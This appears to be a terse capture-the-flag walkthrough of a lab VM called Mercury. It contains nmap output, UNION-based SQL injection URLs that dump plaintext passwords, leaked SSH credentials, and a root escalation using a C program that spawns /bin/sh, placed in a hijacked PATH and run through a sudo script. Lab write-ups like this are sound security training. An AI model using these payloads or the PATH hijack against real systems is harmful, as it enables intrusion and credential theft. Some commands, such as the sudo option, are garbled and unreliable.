




Nmap scan report for 192.168.56.110
Host is up (0.00013s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp
open ssh
8080/tcp open http-proxy
crazyeights@es-base:~$ nmap -A -p- 192.168.56.110
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-25 11:48 EDT
Nmap scan report for 192.168.56.110
Host is up (0.000062s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux;
protocol 2.0)
8080/tcp open http-proxy WSGIServer/0.2 CPython/3.8.2
| fingerprint-strings:
[SNIP]
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
crazyeights@es-base:~$
Using Insomnia:
Checking out Mercury Facts, trying loading a fact:
1 union select column_name from information_schema.columns where
table_name= 'users'
http://192.168.56.110:8080/mercuryfacts/1 union select username from users/
http://192.168.56.110:8080/mercuryfacts/1 union select password from users/
Fact id: 1 union select password from users . (('Mercury does not have any
moons or rings.',), ('johnny1987',), ('lovemykids111',),
('lovemybeer111',), ('mercuryisthesizeof0.056 Earths',))
webmaster:mercuryisthesizeof0.056Earthscrazyeights@es-base:~$ ssh webmaster@192.168.56.110
User credentials:
linuxmaster: mercurymeandiameteris4880km
Checking out syslog:
linuxmaster@mercury:/home/webmaster/mercury_proj$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/ log /syslog
linuxmaster@mercury:~$ cat tail.c
#include <unistd.h>
void main(int argc, char *argv[]){
setuid(0);
setgid(0);
system("/bin/sh -i");
}
export PATH=/tmp:$PATH
Run the script:
sudo --preserve-env-PATH /usr/bin/check_syslog.sh
Get root flag:
FIN.